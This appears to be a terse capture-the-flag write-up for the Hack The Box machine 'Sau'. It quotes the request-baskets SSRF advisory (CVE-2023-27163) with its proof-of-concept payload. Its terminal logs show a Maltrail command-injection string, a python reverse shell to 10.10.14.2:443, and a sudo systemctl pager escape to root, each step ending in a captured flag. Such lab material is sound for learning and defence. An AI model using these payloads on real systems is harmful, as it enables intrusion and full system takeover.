 # Sau HTB


request-baskets version 1.2.1

github


CVE-2023-27163
[description]
request-baskets up to v1.2.1 was discovered to contain a Server-Side
Request Forgery (SSRF) via the component /api/baskets/{name}. This
vulnerability allows attackers to access network resources and
sensitive information via a crafted API request.
>
------------------------------------------
>
[VulnerabilityType Other]
Server-Side Request Forgery (SSRF)
>
------------------------------------------
>
[Vendor of Product]
https://github.com/darklynx/request-baskets
>
------------------------------------------
>
[Affected Product Code Base]
request-baskets - <= Version 1.2.1
>
------------------------------------------
>
[Affected Component]
The API endpoints /api/baskets/{name}, /baskets/{name} are vulnerable to unauthenticated Server-Side Request Forgery (SSRF) attacks via the forward_url parameter.
>
------------------------------------------
>
[Attack Type]
Remote
>
------------------------------------------
>
[Impact Escalation of Privileges]
true
>
------------------------------------------
>
[Impact Information Disclosure]
true
>
------------------------------------------
>
[Attack Vectors]
POC: POST /api/baskets/{name} API with payload - {"forward_url": "http://127.0.0.1:80/test","proxy_response": false,"insecure_tls": false,"expand_path": true,"capacity": 250}
details can be seen: https://notes.sjtu.edu.cn/s/MUUhEymt7
>
------------------------------------------
>
[Discoverer]
beet1e
>
------------------------------------------
>
[Reference]
http://request-baskets.com
https://github.com/darklynx/request-baskets
https://notes.sjtu.edu.cn/s/MUUhEymt7



```bash
puma@sau:~$ cat user.txt
455e78f540837664676d19088ffc37d8
```


```bash
puma@sau:~$ sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
puma@sau:~$ sudo /usr/bin/systemctl status trail.service
● trail.service - Maltrail. Server of malicious traffic detection system
     Loaded: loaded (/etc/systemd/system/trail.service; enabled; vendor preset: enabled)
     Active: active (running) since Fri 2023-08-25 02:23:33 UTC; 37min ago
       Docs: https://github.com/stamparm/maltrail#readme
             https://github.com/stamparm/maltrail/wiki
   Main PID: 879 (python3)
      Tasks: 12 (limit: 4662)
     Memory: 26.4M
     CGroup: /system.slice/trail.service
             ├─ 879 /usr/bin/python3 server.py
             ├─1118 /bin/sh -c logger -p auth.info -t "maltrail[879]" "Failed password for ;`echo "cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxvcyxwdHk7cz1zb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVULHNvY2tldC5TT0NLX1NUUkVBTSk7cy5jb25uZWN0KCgiMTAuMTAuMT>
             ├─1119 /bin/sh -c logger -p auth.info -t "maltrail[879]" "Failed password for ;`echo "cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxvcyxwdHk7cz1zb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVULHNvY2tldC5TT0NLX1NUUkVBTSk7cy5jb25uZWN0KCgiMTAuMTAuMT>
             ├─1123 sh
             ├─1129 python3 -c import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.2",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")
             ├─1130 /bin/sh
             ├─1132 script /dev/null -c bash
             ├─1133 bash
             ├─1153 sudo /usr/bin/systemctl status trail.service
             ├─1155 /usr/bin/systemctl status trail.service
             └─1156 pager

Aug 25 02:23:33 sau systemd[1]: Started Maltrail. Server of malicious traffic detection system.
Aug 25 03:00:48 sau sudo[1152]:     puma : TTY=pts/1 ; PWD=/home/puma ; USER=root ; COMMAND=list
Aug 25 03:00:57 sau sudo[1153]:     puma : TTY=pts/1 ; PWD=/home/puma ; USER=root ; COMMAND=/usr/bin/systemctl status trail.service
Aug 25 03:00:57 sau sudo[1153]: pam_unix(sudo:session): session opened for user root by (uid=0)
!bash
root@sau:/home/puma# cd
root@sau:~# cat root.txt
1023b582baba56710559850c40970a1c
```
